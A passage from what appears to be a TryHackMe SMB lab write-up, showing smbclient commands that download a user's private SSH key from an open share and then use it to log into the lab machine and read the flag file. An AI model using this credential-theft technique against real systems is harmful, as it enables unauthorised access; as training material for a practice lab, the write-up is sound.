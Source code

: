 we can see the public keys for SSH in that folder, and we can also find SSH username by opening the ‘id\_rsa.pub’ file

use ‘mget’ to download files from SMB

```
smb: \\> mget .ssh/id\_rsa\*  
Get file id\_rsa? yes  
getting file \\.ssh\\id\_rsa of size 1679 as .ssh/id\_rsa (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)  
Get file id\_rsa.pub? yes  
getting file \\.ssh\\id\_rsa.pub of size 396 as .ssh/id\_rsa.pub (0.2 KiloBytes/sec) (average 0.6 KiloBytes/sec)  
smb: \\>
```

Type ‘exit’ to logoff

now we must change the file permissions (read and write) of id\_rsa file to SSH as John Cactus

```
chmod 600 id\_rsa
```

Now let’s connect

```
ssh -i id\_rsa cactus@10.10.243.160
```

and we logged in, Answer to the last question is found in smb.txt

```
cat smb.txt
```

🐾You can find the telnet writeup here [https://richardphilipsroy.medium.com/network-services-telnet-tryhackme-6c82292d9419](https://medium.com/network-services-telnet-tryhackme-6c82292d9419)

Thank you for reading.
